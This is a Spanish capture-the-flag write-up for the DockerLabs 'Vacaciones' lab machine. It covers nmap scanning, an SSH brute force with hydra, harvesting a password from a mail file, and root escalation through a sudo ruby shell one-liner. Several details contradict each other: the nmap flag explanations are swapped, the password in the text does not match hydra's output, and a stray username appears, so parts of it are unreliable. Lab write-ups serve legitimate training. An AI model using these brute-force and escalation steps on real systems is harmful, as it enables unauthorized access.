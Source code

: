 ## WRITEUP DE LA MÁQUINA VACACIONES DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```SHELL
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-25 03:01 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
```

Observamos que los puertos 22 y 80 de los servicios ssh, http respectivamente estan abiertos, vamos a tirar por observar la dirección IP en algún buscador ya que el servicio http esta abierto. Vemos la siguiente página:

![paginablanco](https://github.com/user-attachments/assets/d879c2c7-b31c-4ad0-920f-a78598563320)


Con un simple ```Control + u``` inspeccionamos a fondo el código fuente de la página. Esto es lo que vemos:

![controlu](https://github.com/user-attachments/assets/e2d44060-9bae-43d3-84e7-817766e7ee36)

Ahora conocemos dos nombres de usuario y que Camilo debe tener un archivo "correo" por algun lado. Empezaremos por hacer un ataque de fuerza bruta de contraseñas mediante hydra con la wordlist rockyou.txt.

(Como tenemos dos nombres pues habría que probar con los dos, pero os ahorro un tiempo diciendo que solo vamos a obtener la contraseña de Camilo)

```
└─$ hydra -l camilo -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 5
```

"-l camilo" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.17.0.2" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Este es el resultado:

```shell
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-25 03:19:41
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/

[22][ssh] host: 172.17.0.2   login: camilo   password: password1

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-25 03:20:16
```

Encontramos en la línea apartada (la he separado yo para que sea más legible), que la contraseña es "iloveme". Ahora toca mediante conexion ssh entrar al usuario russoski.

Hay veces que se cierra la conexión con un WARNING: REMOTE  HOST IDENTIFICATION HAS CHANGED!, para solucionar solo hay que ejecutar el ssh con un sudo delante, si el problema persiste habra que borrar la clave de la contraseña que está en esta ruta ~/.sh/known_hosts , haciendo un "cat" y borrando la información del archivo ya podremos conectarnos sin problema:
<br>

```
└─$ sudo ssh camilo@172.17.0.2
```

Siendo el usuario camilo, vemos que ``` sudo -l ``` no se puede ejecutar porque no estamos en el grupo de "sudoers", pero es que tampoco nos sirve ``` find / -perm -4000 2>/dev/null ``` porque ningún binario nos es útil.

Es momento de aprovechar la información que sabemos de que camilo debe haber recibido un correo, buscando mediante ```find -name "correo" 2>/dev/null```

En cambio si busco lo mismo pero con la palabra "mail", así, ``` find / -name "mail" 2>/dev/null ``` encontramos dos directorios:

```
$ find / -name "mail" 2>/dev/null
/var/spool/mail
/var/mail
```

Mirando un poco en ambos, encontramos que tienen otro directorio llamado camilo y dentro de este un archivo llamado "correo.txt", un simple "cat" y nos muestra lo siguiente:

```
Hola camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Recordamos que Juan ha enviado este correo según estaba escrito en el codigo de la página web. Hacemos un ```su juan``` y ponemos la contraseña, somos juan:

```
$ whoami
juan
```
Probamos con un ``` sudo -l ``` y esta vez si que vamos a poder escalar privilegios, en este caso con el binario ruby. Vamos al sito web https://gtfobins.github.io/# y buscamos "ruby" en el apartado de "sudo", ```sudo ruby -e 'exec "/bin/sh"'```.

Ejecutamos y...

```
$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
```

Somos root, muchas por seguir este write up!!
